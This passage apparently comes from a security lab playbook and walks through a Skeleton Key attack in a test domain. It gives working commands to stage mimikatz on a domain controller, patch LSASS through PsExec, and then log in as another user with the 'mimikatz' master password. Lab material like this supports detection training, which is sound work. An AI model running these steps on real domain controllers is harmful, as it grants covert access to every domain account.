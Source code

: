 Let's use a Skeleton Key to see how this type of attack works:

1. Move **mimikatz** to **ContosoDC** using the **SamirA** credentials we acquired before. Make sure to push the right architecture of **mimikatz.exe** based on the architecture type of the DC (64-bit vs 32-bit). From the **mimikatz** folder, execute:

   ```dos
   xcopy mimikatz.exe \\ContosoDC\c$\temp
   ```

1. With **mimikatz** now staged on the DC, remotely execute it via PsExec:

   ```dos
   PsExec.exe \\ContosoDC -accepteula cmd /c (cd c:\temp ^& mimikatz.exe "privilege::debug" "misc::skeleton" ^& "exit")
   ```

1. You successfully patched the LSASS process on **ContosoDC**.

    ![Skeleton Key attack via mimikatz](media/playbook-dominance-skeletonkey.png)

### Exploiting the Skeleton Key Patched LSASS

On **VictimPC**, open up a cmd prompt (in the context of **JeffL**), execute the following to try to become context of RonHD.

```dos
runas /user:ronhd@contoso.azure "notepad"
```

When prompted, use the wrong password on purpose. This action proves that the account *still* has a password after executing the attack.

![Use of *wrong* password after Skeleton Key attack (this method works exactly as described)](media/playbook-dominance-skeletonkey_wrong.png)

But Skeleton Key adds an additional password to each account. Do the "runas" command again but this time use "mimikatz" as the password.

```dos
runas /user:ronhd@contoso.azure "notepad"
```

